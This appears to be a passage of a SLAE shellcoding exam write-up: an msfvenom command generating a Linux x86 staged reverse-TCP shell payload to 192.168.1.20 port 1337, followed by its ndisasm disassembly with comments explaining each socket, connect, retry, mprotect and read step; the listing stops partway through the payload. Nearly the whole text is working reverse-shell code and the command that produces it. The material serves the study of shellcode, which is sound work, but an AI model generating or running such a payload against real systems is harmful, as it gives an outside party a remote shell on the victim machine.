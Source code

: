 ```asm
dubs3c@slae:~/SLAE/EXAM/github/assignment_5$ msfvenom -p linux/x86/shell/reverse_tcp -a x86 --platform linux lhost=192.168.1.20 lport=1337 -f raw | ndisasm -u -
No encoder specified, outputting raw payload
Payload size: 123 bytes

00000000  6A0A              push byte +0xa
00000002  5E                pop esi                 ; 10 connection attempts
00000003  31DB              xor ebx,ebx
00000005  F7E3              mul ebx
00000007  53                push ebx                ; socket protocol: 0
00000008  43                inc ebx                 ; SYS_SOCKET
00000009  53                push ebx                ; socket type: SOCK_STREAM = 1
0000000A  6A02              push byte +0x2          ; socket domain: PF_INET = 2
0000000C  B066              mov al,0x66             ; socketcall()
0000000E  89E1              mov ecx,esp             ; socket() arguments used in second parameter for socketcall
00000010  CD80              int 0x80
00000012  97                xchg eax,edi
00000013  5B                pop ebx
00000014  68C0A80114        push dword 0x1401a8c0   ; 192.168.1.20
00000019  6802000539        push dword 0x39050002   ; 1337
0000001E  89E1              mov ecx,esp             ; sockaddr struct
00000020  6A66              push byte +0x66         ; socketcall()
00000022  58                pop eax
00000023  50                push eax
00000024  51                push ecx
00000025  57                push edi
00000026  89E1              mov ecx,esp             ; connect() arguments used in second parameter for socketcall
00000028  43                inc ebx                 ; SYS_CONNECT
00000029  CD80              int 0x80                ; Execute syscall
0000002B  85C0              test eax,eax            ; Test if connect() returned success
0000002D  7919              jns 0x48                ; If not zero, jump to 00000048
0000002F  4E                dec esi                 ; Decrease esi
00000030  743D              jz 0x6f                 ; If zero, exit program
00000032  68A2000000        push dword 0xa2
00000037  58                pop eax                 ; syscall sys_nanosleep 162
00000038  6A00              push byte +0x0          ; timespec structure tv_nsec
0000003A  6A05              push byte +0x5          ; timespec structure tv_sec -> Sleep 5 seconds
0000003C  89E3              mov ebx,esp             ; ebx points to timespec structure
0000003E  31C9              xor ecx,ecx             ; last argument for sys_nanosleep is zero
00000040  CD80              int 0x80                ; Execute syscall
00000042  85C0              test eax,eax
00000044  79BD              jns 0x3                 ; if not zero jump to 00000003
00000046  EB27              jmp short 0x6f          ; exit program
00000048  B207              mov dl,0x7              ; reverse shell success fully connected. 7 -> read,write,execute
0000004A  B900100000        mov ecx,0x1000          ; size_t len 4096
0000004F  89E3              mov ebx,esp             ; *addr = points to top of the stack
00000051  C1EB0C            shr ebx,0xc             ; shift ebx 12 bytes to the right
00000054  C1E30C            shl ebx,0xc             ; shift ebx 12 bytes to the left
00000057  B07D              mov al,0x7d             ; sys_mprotect 125
00000059  CD80              int 0x80                ; Execute syscall
0000005B  85C0              test eax,eax            ; Test if mprotect() returned success
0000005D  7810              js 0x6f                 ; If zero, exit program
0000005F  5B                pop ebx                 ; file descriptor for read()
00000060  89E1              mov ecx,esp             ; move stack pointer to ecx = void *buf
00000062  99                cdq                     ; 
00000063  B224              mov dl,0x24             ; size_t count = 36 bytes
00000065  B003              mov al,0x3              ; sys_read 03
00000067  CD80              int 0x80                ; Execute syscall
00000069  85C0              test eax,eax            ; Test if read() returned success
0000006B  7802              js 0x6f                 ; If not zero, exit program
```